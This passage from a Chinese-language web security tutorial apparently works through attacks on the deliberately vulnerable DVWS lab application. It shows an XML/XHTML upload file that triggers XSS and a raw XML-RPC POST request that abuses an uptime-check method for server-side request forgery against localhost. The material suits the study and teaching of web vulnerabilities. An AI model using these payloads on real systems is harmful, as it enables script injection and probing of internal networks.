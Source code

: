 [![](assets/1705886707-618b3d46af902e8c134bab39fd5020e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115906-4208cd98-b748-1.png)  
在这里我们还要扩展一个通过上传 XML 文件导致 XSS 的示例，构造如下带有 XHTML 的 XML 文件：

```bash
<?xml version="1.0" encoding="UTF-8"?>
<xhtml:html xmlns:xhtml="http://www.w3.org/1999/xhtml">
<xhtml:script>
    alert(1)
    </xhtml:script>
</xhtml:html>
```

随后进行文件上传操作  
[![](assets/1705886707-c417a4dbd52dea735553c04dfed099a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115934-527a42b0-b748-1.png)  
[![](assets/1705886707-27da8206e83ce92b722d9f5b2070b7cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115941-56874ea2-b748-1.png)

### SSRF 攻击

服务器端请求伪造 (SSRF) 在 SOAP 中也比较常见，攻击者可以在该漏洞中生成将由应用程序启动的请求，然后可以利用这一点向第三方系统发出请求，例如：进行端口扫描、访问内网应用、进行文件读取等，某些 API 或 RPC 服务可能提供从其他 API/应用程序以 HTTP 请求参数的形式获取数据的功能，在这些情况下，我们可以利用 API 来执行端口扫描等操作，在 DVWS 应用程序的端口 9090 中可以使用 XML-RPC 服务，在 DVWS 节点应用程序中有关此 XML-RPC 服务使用的提示显示在的代码注释中[http://192.168.204.160/error.html](http://192.168.204.160/error.html) 这些信息也可以通过暴力强制找到[http://192.168.204.160:9090/xmlrpc](http://192.168.204.160:9090/xmlrpc) 服务器

```bash
POST /xmlrpc HTTP/1.1
Host: 192.168.204.160:9090
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
Content-Length: 174
Content-Type: application/x-www-form-urlencoded

<?xml version="1.0"?><methodCall><methodName>dvws.CheckUptime</methodName><params><param><value><string>http://127.0.0.1/uptime</string></value></param></params></methodCall>
```
